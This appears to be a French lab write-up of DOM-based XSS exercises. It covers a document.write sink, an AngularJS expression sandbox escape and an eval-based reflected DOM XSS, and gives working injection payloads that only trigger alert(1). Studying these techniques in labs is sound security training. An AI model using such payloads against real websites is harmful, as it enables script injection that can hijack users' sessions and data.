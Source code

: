     “var store = (new URLSearchParams(window.location.search)).get('storeId');
        document.write('<select name="storeId">');”

Ajouter un “&storeId=12345” à la fin de l’URL et voir que ce paramètre a bien été impacté dans le menu déroulant.

Répéter la même opération avec le payload suivant : 

    "></select><img%20src=1%20onerror=alert(1)>
    
### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

En tentant un payload classique dans la barre de recherche, on voit que les chevrons et les guillemets sont encodés : 

    <h1>0 search results for 'aaa&apos; &lt;script&gt; alert(1) &lt;/script&gt;'</h1>

Remarquer le “<body ng-app\>” qui englobe toute la page.

Entrer le payload suivant dans la barre de recherche :

    {{$on.constructor('alert(1)')()}}

### Reflected DOM XSS

Remarquer que le contenu de la recherche est exploité par un autre script : 

	<script src='/resources/js/searchResults.js'></script>
    <script>search('search-results')</script>

Intercepter une recherche classique avec Burp pour en observer le fonctionnement.

On peut voir que la recherche se fait en deux étapes : 

    GET /?search=XSS HTTP/2
    ...
    GET /search-results?search=XSS HTTP/2

On voit que la réponse à la deuxième requête a cette structure : 

    {"results":[],"searchTerm":"XSS"}

En observant le code du script searchResults.js on observe le morceau suivant : 

    if (this.readyState == 4 && this.status == 200) {
                eval('var searchResultsObj = ' + this.responseText);
                displaySearchResults(searchResultsObj);
            }

Envoyer la deuxième requête dans le Repeater et tester tous les symboles classiques pour vérifier lesquels sont gérés : \ “ ‘ ; < > 

On observe que les guillemets sont échappés mais pas les antislashs, on peut donc annuler n’importe quel échappement de caractère en ajoutant un antislash avant.

Entrer le payload suivant dans la barre de recherche : 

    \"-alert(1)}//
